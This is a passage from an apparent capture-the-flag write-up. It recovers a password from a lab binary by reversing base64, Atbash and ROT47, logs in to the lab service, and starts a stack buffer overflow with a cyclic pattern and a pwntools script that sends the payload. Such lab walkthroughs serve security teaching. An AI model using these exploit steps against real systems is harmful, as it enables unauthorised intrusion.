 Basically, it’s swapping a –> z, b –> y, and so on. This cipher is known as [Atbash](https://en.wikipedia.org/wiki/Atbash).

#### Creds

With the target string, I’ll decode in the opposite order to get the password, first base64 decoding, then Atbash, and then ROT47 (all in [CyberChef](https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)Atbash_Cipher()ROT47(47)&input=WVhsWWVEdHNiRDk4ZUR0c1dtczVTeVU9)):

![image-20220203161045123](https://0xdfimages.gitlab.io/img/image-20220203161045123.png)

Neither Atbash and ROT47 have encrypt/decrypt functions, as the same function does both for each.

With these creds, the login works:

```

oxdf@hacky$ nc 10.10.11.115 9999
Welcome Brankas Application.
Username: alfiansyah
Password: K3r4j@@nM4j@pAh!T
Login Successfully!
FullName: 

```

### Local Exploit

#### Find Offset

The first thing I need is the offset from my input to the return pointer that will overwrite EIP. I’ll start `MyFirstApp.exe` running in my Windows VM with x32dbg attached. I’ll generate a pattern buffer with `pattern_create.rb`:

```

oxdf@hacky$ pattern_create.rb -l 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

```

That goes into a simple Python script that will connect, give the correct username/passwords, and send the pattern into the overflow:

```

#!/usr/bin/env python3

from pwn import *

r = remote("10.1.1.163", args['PORT'])

payload = b"Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag"

r.recvuntil("Username: ")
r.sendline(b"alfiansyah")
r.recvuntil("Password: ")
r.sendline(b"K3r4j@@nM4j@pAh!T")
r.recvuntil("FullName: ")
r.sendline(b"0xdf")
r.recvuntil("Input Your Code: ")
r.sendline(payload)
r.interactive()

```